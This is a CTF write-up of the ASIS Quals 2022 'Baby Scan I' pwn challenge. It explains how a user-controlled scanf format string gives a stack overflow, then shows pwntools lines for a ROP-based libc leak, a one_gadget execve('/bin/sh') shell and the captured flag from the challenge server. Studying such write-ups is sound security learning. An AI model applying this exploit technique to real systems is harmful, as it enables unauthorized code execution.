 ```yaml
---
title: 'Baby Scan I - ASIS QUALS 2022'
permalink: /writeups/asisquals2022/babyscanI
---
```


## Baby Scan I

> Is it possible to scan the thousands of resulting strings by hand? We think it’s tedious, but will get the job done!

## Intro

At the start of my master's degree, I joined STT for the ASIS Quals CTF 2022 and one of the pwn challenges was baby scan. It is, as you'll see, a format string challenge, but this time the vulnerable function will be scanf, and not printf as usuall. I managed to solve this challenge with the help of one of my teamates.

## Analysis

### checksec

```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

### file command output

```bash
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.31.so, for GNU/Linux 3.2.0, BuildID[sha1]=b31cf6b807484f2d04a80ceb67725cdb0f0785cd, not stripped
```

### Code

Source code was provided so reverse will be done quickly

```c
int main() {
  char size[16], fmt[8], *buf;

  printf("size: ");
  scanf("%15s", size);
  if (!isdigit(*size)) {
    puts("[-] Invalid number");
    return 1;
  }

  buf = (char*)alloca(atoi(size) + 1);

  printf("data: ");
  snprintf(fmt, sizeof(fmt), "%%%ss", size);
  scanf(fmt, buf);

  return 0;
}
```

It's pretty obvious just by looking at the code that we control the format string in scanf. However, we need to pass a size that passes the isDigit check. The key is that isDigit expects an int, but a char* is passed, so it will only check the first character sent. Ensuring that the first character is a decimal digit then the rest is easy, since we control the format string in scanf. It is worth mentioning that, the %% will result in a % being printed into the string. Therefore, what will be printed into the fmt string is %sizes, where we control the size.

## Exploit

### Libc leak

By sending 8s%s this will result in the following format string %8s%ss. Basically scanf will read a string of 8 characters, then read another of arbitrary size (until a space or a new line) and then fail (since the s there won't match anything). However, looking at the scanf arguments we see that we only specified one argument, buf. Thus, we have an out of bounds write, aka buffer overflow in the stack. Using this overflow we will then get RCE.  
Having figgured out the vulnerability, this is a simple rop to call puts(puts) (puts with its address as argument) to leak libc base address) and have another run at main. This part of the exploit is shown bellow. Simple note, one could have used any number besides 8 as long as it is a decimal digit. However, keep in mind that changing the 8 to a different value will affect the padding sent, since part of the padding is beiing extract by the %8s format.

```python
io.sendlineafter(b"size: ", b'8s%s')

io.sendlineafter(b"data: ", b"A" * 96 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main))
```

It is worth mentioning that the gadget to set the rdi register used was

```bash
0x0000000000401433 : pop rdi ; ret
```

Then all there is to do is parse the leak and compute libc base address

### Shell

Using the same payload as last time, only this time overwriting the main's return address to the one gadget address gives us a shell. The one gadget that was chosen is listed bellow.

```bash
0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL
```

As you can see, I got a shell and the flag

```bash
[+] Opening connection to 65.21.255.31 on port 13370: Done
[*] Switching to interactive mode
ASIS{06e5ff13b438f5d6626a97758fddde3e502fe3fc}
```

Remember that this is one of many possible solutions
